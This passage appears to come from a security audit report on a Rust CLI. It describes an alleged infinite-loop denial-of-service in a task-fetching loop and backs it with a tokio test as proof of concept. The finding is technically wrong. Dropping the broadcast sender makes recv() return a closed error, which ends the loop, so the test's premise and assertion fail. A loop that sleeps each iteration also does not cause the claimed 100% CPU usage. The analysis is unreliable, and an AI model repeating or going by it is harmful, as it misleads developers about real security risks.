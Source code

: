 ### 6. **Infinite Loop Resource Exhaustion**

**Target:** `clients/cli/src/workers/online.rs:94` - Task fetching loop

**Attack Scenario:**
```rust
// Vulnerable infinite loop
loop {
    tokio::select! {
        _ = shutdown.recv() => break,
        _ = tokio::time::sleep(Duration::from_millis(500)) => {
            // If shutdown signal is blocked/corrupted...
            // This loop runs FOREVER consuming CPU!
        }
    }
}
```

**Proof of Concept:**
```rust
#[tokio::test]
async fn test_infinite_loop_attack() {
    let (shutdown_sender, mut shutdown_receiver) = broadcast::channel(1);
    
    // Attacker: corrupt/block shutdown signal
    std::mem::drop(shutdown_sender); // Drop sender → receiver never gets signal
    
    let start_time = std::time::Instant::now();
    
    // Simulate the vulnerable loop (with timeout for test)
    let result = tokio::time::timeout(Duration::from_secs(2), async {
        loop {
            tokio::select! {
                _ = shutdown_receiver.recv() => break,
                _ = tokio::time::sleep(Duration::from_millis(100)) => {
                    // Consuming CPU forever!
                    println!("Still looping...");
                }
            }
        }
    }).await;
    
    assert!(result.is_err()); // Timeout proves infinite loop
    assert!(start_time.elapsed() >= Duration::from_secs(2));
}
```

**Attack Impact:**
- 100% CPU usage (resource exhaustion)
- Application becomes unresponsive
- DoS through resource consumption

---

